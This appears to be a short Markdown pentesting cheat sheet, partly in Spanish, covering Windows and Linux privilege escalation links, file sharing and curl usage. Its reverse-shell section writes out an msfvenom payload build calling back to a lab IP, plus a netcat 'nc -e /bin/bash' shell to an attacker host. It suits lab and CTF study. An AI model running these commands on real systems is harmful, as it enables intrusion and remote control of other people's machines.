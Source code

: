 # `` Pentest `` 

## Privilege Escalation Windows

* [SeImpersonatePrivilege Enabled](https://binaryregion.wordpress.com/2021/06/14/privilege-escalation-windows-juicypotato-exe/)


## Privilege Escalation Linux

* [Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

## Reverse Shell 

### Windows

* msfvenom
    
        msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=4445 EXITFUNC=thread -f exe -a x86 --platform windows -o shell.exe

### Linux

* NetCat
    Victima
    
        nc -e /bin/bash ipAtacante 4444

    Atacante

        nc -nvlp 4444
      
## ShareFiles
 
 * Compartir ficheros por smb
 
        impacket-smbserver smb $(pwd) -smb2support
    
 * Compartir ficheros por http
 
        python -m http.server 8080

## Curl

* Content-type json

        curl -H "Content-type: application/json" -d "variables" -XPOST http://
* Upload file

        curl -F "file=file.txt" http://
        
* Curl /etc/hosts 

        curl https://example.com --resolve 'example.com:443:192.0.2.17'
        
        
 
 
